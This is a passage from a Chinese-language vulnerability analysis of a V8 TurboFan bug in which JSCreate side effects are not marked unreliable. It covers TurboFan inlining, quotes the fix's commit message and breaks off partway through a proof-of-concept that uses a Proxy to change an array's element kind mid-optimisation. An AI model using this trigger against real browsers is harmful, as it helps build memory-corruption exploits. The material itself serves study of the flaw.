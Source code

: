 inlining
--------

`TurboFan`东西比较多，我稍微提一下和本漏洞相关的内容，更详细的东西请看我写出来的链接。下图是`TurboFan`的优化过程

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210114174652-6e2170d8-564d-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210114174652-6e2170d8-564d-1.png)

`Inlining`的目的是将目标函数内联到当前函数之中，不仅节省了函数调用的额外开销，还更方便后续的其他优化（冗余缩减，逃逸分析等等）。具体的实现分为两种：

1.  `General Inlining`。一般用来处理用户代码的内联，在`JSInliner`针对 `JSCallFunction` 和 `JSCallConstruct` 进行处理，用 `BytecodeGraphBuilder` 根据 `Interpreter` 生成的 `Bytecode` 为 `callee` 直接生成一个子图，最终将 `Call` 节点替换为该子图
2.  `Builtin Inlining`。一般用来处理`js`内置函数的内联。`TurboFan` 将会在两个地方进行 `Builtin` 的内联，`JSBuiltinReducer` 处理的 `Inline` 必须在 `Type Pass` 后面，也就是需要采集 `Type Information`；`JSCallReducer` 处理的则稍早，处理一些类型严格的 `Builtin` 比如 `Array.prototype.map`。
    *   inlining/native context specialization pass: `JSCallReducer`
    *   typed lowering pass: `JSBuiltinReducer`

更详细的内容请看：[An overview of the TurboFan compiler](https://docs.google.com/presentation/d/1H1lLsbclvzyOF3IUR05ZUaZcqDxo7_-8f4yJoxdMooU/htmlpresent)，[A Tale Of TurboFan](https://docs.google.com/presentation/d/1UXR1H2elTdAYJJ0Eed7lUctCVUserav9sAYSidxp8YE/edit#slide=id.g284582328f_0_203)，[TurboFan Inlining](https://docs.google.com/document/d/1l-oZOW3uU4kSAHccaMuUMl_RCwuQC526s0hcNVeAM1E/edit#heading=h.56xkbja466o9)。

poc 分析
------

首先查看[回归测试](https://chromium.googlesource.com/v8/v8.git/+/fb0a60e15695466621cf65932f9152935d859447)，我们可以得到以下信息：

```
[turbofan] Fix bug in receiver maps inference

JSCreate can have side effects (by looking up the prototype on an
object), so once we walk past that the analysis result must be marked
as "unreliable".


```

漏洞的成因在于`turbofan`认为`JSCreate`结点不会存在`side effects`，因此并未将其标记为`unreliable`。但我们尚不清楚这个漏洞会造成什么危害，接着看一下我修改后的的`poc`：

```
// Flags: --allow-natives-syntax

let a = [0, 1, 2, 3, 4];    // 创建时的类型是PACKED_SMI_ELEMENTS
function empty() {}
function f(p) {
    // Reflect.construct可以生成JSCreate结点
    // 作为pop函数的参数可以将JSCreate结点加入到effech chain之中，原因之后会说
    return a.pop(Reflect.construct(empty, arguments, p));
}
// new Proxy(target, handler)设置回调函数 
// handler.get()用于拦截对象的读取属性操作
let p = new Proxy(Object, {
    get: () => {
        %DebugPrint(a);
        %SystemBreak();
        a[0] = 1.1; // 修改之后的类型是PACKED_DOUBLE_ELEMENTS
        %DebugPrint(a);
        %SystemBreak();
        return Object.prototype;
    }
});

function main(p) {
    return f(p);
```